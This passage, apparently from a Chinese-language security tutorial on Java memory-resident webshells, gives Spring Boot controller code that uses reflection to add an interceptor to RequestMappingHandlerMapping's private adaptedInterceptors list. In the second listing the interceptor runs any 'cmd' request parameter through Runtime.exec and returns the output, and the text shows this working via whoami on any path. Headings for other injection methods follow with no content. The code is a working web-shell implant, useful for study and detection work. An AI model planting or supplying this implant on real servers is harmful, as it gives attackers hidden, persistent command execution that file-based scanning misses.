可以看到这里把list中所有拦截器的preHandler()都调用了一遍

---

### 示例代码

**主要还是先拿到WebApplicationContext然后通过调用WebApplicationContext.getBean()拿到RequestMappingHandlerMapping对象，然后拿到RequestMappingHandlerMapping的父类AbstractHandlerMapping的私有属性adaptedInterceptors**

```
package com.example.demo.demos.web;


import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestAttributes;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.DispatcherServlet;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.util.List;

@RestController
public class HelloController {

    @RequestMapping(value = "/hello")
    public String hello() {
        System.out.println("Hello World");
        return "Hello World";
    }


    @RequestMapping(value = "inject2")
    public String inject2() {
        // 通过WebApplicationContext拿到RequestMappingHandlerMapping对象
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE, 0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);

        // 通过反射，拿到adaptedInterceptors，然后把我们的HelloInterceptor添加进去
        try {
            Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            List<HandlerInterceptor> list = (List<HandlerInterceptor>) field.get(mapping);
            list.add(new HelloInterceptor());
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        return "inject success";
    }
}

```

然后把之前的WebConfig删掉，然后HelloInterceptor.java可以不变，也可以把HelloInterceptor删掉然后集成到HelloController中

也就是和注入逻辑写在一个文件中

例如这样：

```
package com.example.demo.demos.web;


import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestAttributes;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.DispatcherServlet;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.util.List;

@RestController
public class HelloController {

    @RequestMapping(value = "/hello")
    public String hello() {
        System.out.println("Hello World");
        return "Hello World";
    }

    @RequestMapping(value = "inject2")
    public String inject2() {
        // 通过WebApplicationContext拿到RequestMappingHandlerMapping对象
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE, 0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);

        // 通过反射，拿到adaptedInterceptors
        try {
            Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            List<HandlerInterceptor> list = (List<HandlerInterceptor>) field.get(mapping);
            list.add(new HelloInterceptor());
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        return "inject success";
    }


    public class HelloInterceptor implements HandlerInterceptor {

        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process exec = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(exec.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    response.getWriter().println(line);
                }
                return false;
            }
            return true;
        }
    }
}

```

然后运行，访问`http://localhost:8080/hello?cmd=whoami`

发现没有命令执行回显，然后访问`http://localhost:8080/inject2`


发现显示注入成功，然后访问随便一个地址然后?cmd=whoami

发现成功执行


这里访问任意路径都可触发

---


# Tomcat Value内存马


# Agent内存马


#  内存马注入


## JNDI注入内存马


## Fastjson注入内存马


## 反序列化注入内存马


## shiro注入内存马


